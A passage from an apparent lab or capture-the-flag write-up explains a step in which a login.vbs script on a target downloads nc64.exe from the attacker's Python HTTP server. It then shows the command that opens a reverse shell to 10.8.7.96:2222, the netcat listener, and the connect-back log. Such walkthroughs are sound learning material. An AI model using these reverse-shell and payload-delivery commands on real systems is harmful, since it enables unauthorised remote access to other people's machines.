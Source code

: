 ```bash
python3 -m http.server 8001 
```
    
    - This command starts a simple HTTP server on **port 8001**.
        
    - It serves any files in the current directory — in your case, `nc64.exe`.
        
    - This is exactly what the `login.vbs` script expects when it runs the `curl` command on the target.
        
2. **Target Machine Fetching the File**
    
    From your log:
    
    `10.10.77.235 - - [09/Sep/2025 19:01:37] "GET /nc64.exe HTTP/1.1" 200 -`
    
    - `10.10.77.235` is the IP of the target machine (the one executing the login script).
        
    - `"GET /nc64.exe HTTP/1.1" 200 -` confirms the file was **successfully downloaded**.
        
    - Repeated GET requests indicate the script may be running multiple times or retrying downloads.
        
3. **What Happens Next**
    
    Once the file is downloaded:
    
    `C:\Windows\Temp\nc64.exe 10.8.7.96 2222 -e cmd.exe`
    
    - `nc64.exe` executes and attempts to connect back to `10.8.7.96` on **port 2222**.
        
    - This sets up a **reverse shell**, giving you interactive access to the target.
        
## Step 8 – Reverse Shell Established

1. **Listener Started on Your Machine**
    

```bash
nc -nlvp 2222
```

- `-n` → Don’t resolve hostnames.
    
- `-l` → Listen mode (wait for incoming connections).
    
- `-v` → Verbose output.
    
- `-p 2222` → Listen on port 2222.
    

2. **Target Connects Back**
    

`connect to [10.8.7.96] from (UNKNOWN) [10.10.77.235] 53599`

- `10.10.77.235` is the target IP.
    
- `53599` is the ephemeral port used on the target.
    
- `(UNKNOWN)` because reverse DNS lookup failed — not critical.
    

3. **Shell Access**
    